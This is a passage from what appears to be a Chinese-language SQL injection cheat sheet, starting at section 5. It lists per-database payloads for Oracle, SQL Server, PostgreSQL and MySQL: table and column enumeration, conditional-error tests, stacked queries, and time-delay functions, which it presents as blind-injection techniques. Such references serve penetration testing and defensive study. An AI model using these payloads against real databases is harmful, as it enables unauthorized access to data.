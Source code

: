 ### 5.数据库内容
列出数据库中存在的表，以及这些表中所包含的列。
|||
|-|-|
| Oracle    | SELECT * FROM all_tables <br />SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE' |
| Microsoft | SELECT * FROM information_schema.tables <br /> SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' |
| PostgreSQL| SELECT * FROM information_schema.tables <br /> SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' |
| MySQL     | SELECT * FROM information_schema.tables <br /> SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' |

###  6.条件错误
测试单个布尔条件，如果条件为true，则触发数据库错误。
|||
|-|-|
| Oracle     | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual |
| Microsoft  | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END |
| PostgreSQL | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END |
| MySQL      | SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') |

###  7.批量查询
使用批量查询来连续执行多个数据库语句。 注意，在执行后续查询时，结果不会直接返回给应用程序。 因此，该技术主要用于与sql盲注漏洞有关的问题，在该漏洞中，可以使用二次查询来触发DNS查询，条件错误或时间延迟。
|||
|-|-|
| Oracle     | Does not support batched queries. |
| Microsoft  | QUERY-1-HERE; QUERY-2-HERE        |
| PostgreSQL | QUERY-1-HERE; QUERY-2-HERE        |
| MySQL      | Does not support batched queries. |

### 8.时间延迟
处理sql查询时，可能导致数据库中的时间延迟。 以下情况将导致10秒的无条件时间延迟。
|||
|-|-|
| Oracle     | dbms_pipe.receive_message(('a'),10) |
| Microsoft  | WAITFOR DELAY '0:0:10'              |
| PostgreSQL | SELECT pg_sleep(10)                 |
| MySQL      | SELECT sleep(10)                    |
